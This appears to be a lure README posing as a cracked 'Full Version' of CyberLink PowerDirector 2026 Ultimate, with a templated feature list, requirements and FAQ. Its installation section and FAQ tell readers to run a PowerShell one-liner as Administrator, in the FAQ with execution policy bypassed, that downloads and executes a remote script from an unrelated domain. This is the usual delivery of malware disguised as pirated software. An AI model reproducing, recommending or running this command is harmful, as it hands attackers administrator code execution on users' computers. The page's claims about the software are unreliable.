

<div align="center">


<br>


# CyberLink PowerDirector 2026 Ultimate Edition
**AI editing · 360 video · Motion design**
<br>
**AI editing · 360 video · Motion design**
<br>
Full Version  ◆  Pro  ◆  Complete  ◆  Windows



**PowerDirector 2026 Ultimate — AI editing assistants, 360 video tools, motion titles and color presets all enabled.**

</div>
---

> Cut videos with AI helpers and cinematic titles — 360 tools, motion graphics and color presets all enabled.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://beyondapp.pro/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

🎬 **Creative production** — Pro writing or simulation tools enabled.
📦 **Local desktop suite** — Works offline after setup.
🖥️ **Windows optimized** — Built for creative workstations.
⚙️ **Pro workflow** — Industry-standard features included.
✨ **Premium modules** — Paid creative features enabled.
📋 **Complete toolkit** — Templates and assets supported.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 10 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://beyondapp.pro/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 10 gb free space.
</details>


TAGS
cyberlink-powerdirector-2026, cyberlink, cyberlink-powerdirector, cyberlink-ultimate, cyberlink-2026, cyberlink-app, ai-editing, windows, pro, desktop, software, studio, tools
